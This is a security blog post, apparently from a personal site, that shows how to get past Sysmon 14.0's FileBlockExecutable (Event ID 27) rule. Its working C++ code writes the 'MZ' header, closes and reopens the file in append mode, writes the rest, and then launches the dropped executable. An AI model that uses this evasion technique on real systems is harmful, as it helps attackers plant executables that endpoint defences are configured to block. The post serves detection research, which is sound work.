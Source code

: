 ```yaml
---
layout: article
title: "Sysmon EID 27 Bypass" 
categories: [Cybersecurity]
author: Ahmed Elmayyah
tags: [Cybersecurity, Programming, C, Exploitation, Bypass]
mode: normal 
header:
  theme: dark
article_header:
  type: cover 
  theme: dark
  background_image: false
# Stick to an image with a height of 700
  image:
    src: /assets/images/sysmon-eid-27-bypass/sysmon_header.jpg
cover: /assets/images/sysmon-eid-27-bypass/sysmon_cover.jpg
---
```


# Sysmon EID 27 

Sysmon version 14.0 was released on the 16th of August 2022. The new version introduces a new Event ID: 27 FileBlockExecutable. It is kind of new for sysmon to block something from happening completely. So, it was interesting to think of a way to bypass it!

I came across [this post by Olaf Hartong](https://medium.com/@olafhartong/sysmon-14-0-fileblockexecutable-13d7ba3dff3e). In this post, Olaf was previewing the new event and how it works on a surface level.
<!--more-->
> The same is true for an DLL/XLL/WLL file since that will share the same MZ header.

It seemed apparent that the new rule is using the MZ header(explained below) to detect if the file is a Windows executable or not.

# Preparation

Taking the simple config file from the post for demonstration purposes, I installed Sysmon 14.0 on my Windows 10 VM and set the config file below. The file basically sets the rule to fire on any executable file in the Downloads folder of any user.
```xml
<Sysmon schemaversion="4.82">
   <EventFiltering>
      <RuleGroup name="" groupRelation="or">
         <FileBlockExecutable onmatch="include">
            <TargetFilename condition="contains all">C:\Users;Downloads</TargetFilename>
         </FileBlockExecutable>
      </RuleGroup>
   </EventFiltering>
</Sysmon>
```

I also wrote a very simple executable which prints out "Catch me if you can, Sysmon!". This is the executable that I'm going to try to drop and run from the Downloads folder. This executable as a start is placed in Documents\App.exe.

In an actual attack scenario, the file would be recieved from a remote server or perhaps embedded in the file itself. However, this is for demonstration only so it shouldn't really matter as Sysmon doesn't care where the file originated. All it cares about is the writing of an executable to the folders specified in the rule.
{:.info}


{: style="text-align:center"} 
![Output of the program](/assets/images/sysmon-eid-27-bypass/App.exe.png)

I also opened the event viewer and set a filter for event 27 at Application and Services Logs/Microsoft/Windows/Sysmon/Operational.

{: style="text-align:center"}
![Sysmon Filter](/assets/images/sysmon-eid-27-bypass/SysmonFilter.png)


To verify that Sysmon is working and will detect attempts to write an executable in the Downloads folder, I used the following simple program to write the file.

```cpp
#include <Windows.h>

int main()
{
	//Open an existing executable, for demonstration purposes
	HANDLE executableFile = CreateFileA("C:\\Users\\Satharus\\Documents\\App.exe",
		GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	//Allocate a buffer for the file and read it
	unsigned long long fileSize = GetFileSize(executableFile, NULL);
	char *fileBytes = (char *)malloc(fileSize);
	unsigned int bytesRead;
	ReadFile(executableFile, fileBytes, fileSize, (LPDWORD)&bytesRead, NULL);
	CloseHandle(executableFile);

	//Create a new file with write permissions
	HANDLE downloadsFile = CreateFileA("C:\\Users\\Satharus\\Downloads\\App.notexe",
		GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

	//Write the executable file
	WriteFile(downloadsFile, fileBytes, fileSize, NULL, NULL);
	return 0;
}
```


{: style="text-align:center"}
![Sysmon Blocking](/assets/images/sysmon-eid-27-bypass/WithoutBypass.png)
{: style="text-align:center"}
As expected, Sysmon detects the creation of the file and blocks it.


# The Bypass

## A little bit of background
If you don't know, file formats typically have a [sequence of bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) known as file signatures, file headers, or more commonly, Magic Bytes. They're used by operating systems and programs to detect file formats even if their names don't contain the file extension.

The Windows Portable Executable format uses a file header/signature of `MZ` (the bytes `0x4D` and `0x5A`). That includes all executables, including .exe, .dll, .sys, etc...

## Primal instinct
My very first thought was to zero out the MZ header and try to execute the file as is. That way Sysmon wouldn't detect it but I'd still be able to execute it just fine. However, that failed as `CreateProcess()` failed to execute a binary that doesn't have an MZ header. Running the executable from PowerShell or the command line prompt didn't work either. Interestingly enough, this proved some points:
 - Sysmon relies on the MZ header to detect an executable, as writing an entire binary without "MZ" worked just fine. 
 - Sysmon doesn't rely on the bytes `MZ` alone as when writing those to a file it doesn't detect anything.


So, it seems like Sysmon relies on `MZ` alongside _something_ else to detect that it is an executable.

## The Actual bypass
Puting two and two together, what if we just wrote the file on two stages. We can write the string "MZ" first, and then write the rest of the file.

At first, I tried making two different calls to `WriteFile()` using the same file handle obtained from `CreateFileA()`. Sysmon was able to detect and block that just fine. However, the following steps worked:
 1. Create a file
 2. Write "MZ" to the file
 3. Close the handle to the file
 4. Open a handle to the same file in append mode
 5. Append the rest of the content to the file (make sure to skip the first two bytes)
 6. Close the handle
 7. Profit??

```cpp
#include <Windows.h>

int main()
{
	//Open an existing executable, for demonstration purposes
	HANDLE executableFile = CreateFileA("C:\\Users\\Satharus\\Documents\\App.exe",
		GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	//Allocate a buffer for the file and read it
	unsigned long long fileSize = GetFileSize(executableFile, NULL);
	char *fileBytes = (char *)malloc(fileSize);
	unsigned int bytesRead;
	ReadFile(executableFile, fileBytes, fileSize, (LPDWORD)&bytesRead, NULL);
	CloseHandle(executableFile);

	//Create a new file with write permissions to write the MZ header
	HANDLE downloadsFile = CreateFileA("C:\\Users\\Satharus\\Downloads\\App.notexe",
		GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

	//Write the MZ header
	WriteFile(downloadsFile, "MZ", 2, NULL, NULL);

	//Close the file, this is extremely necessary to bypass sysmon
	CloseHandle(downloadsFile);

	//Get a handle to the file in append mode to write the rest of the file
	downloadsFile = CreateFileA("C:\\Users\\Satharus\\Downloads\\App.notexe",
		FILE_APPEND_DATA, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	//Write the rest of the file, skipping the first two bytes of the file
	WriteFile(downloadsFile, fileBytes + 2, fileSize - 2, NULL, NULL);
	CloseHandle(downloadsFile);

	//Create a new process using the executable we just very _stealthily_ dropped!
	STARTUPINFOA si;
	PROCESS_INFORMATION pi;
	CreateProcessA("C:\\Users\\Satharus\\Downloads\\App.notexe", NULL,
		NULL, NULL, true, 0, NULL, NULL, &si, &pi);
	return 0;
}
```

{: style="text-align:center"}
![Sysmon Blocking](/assets/images/sysmon-eid-27-bypass/WithBypass.png)
{: style="text-align:center"}
Sysmon doesn't detect the creation of the file and the process is allowed to execute.

This worked flawlessly. 

Simple? Yes. 

Stupid? Probably. 

Effective? Definitely!


Thanks a lot for reading! As usual, I hope you learned something or at least found it interesting!

If you enjoyed it, please share it with your friends that are interested in simple detection bypasses.
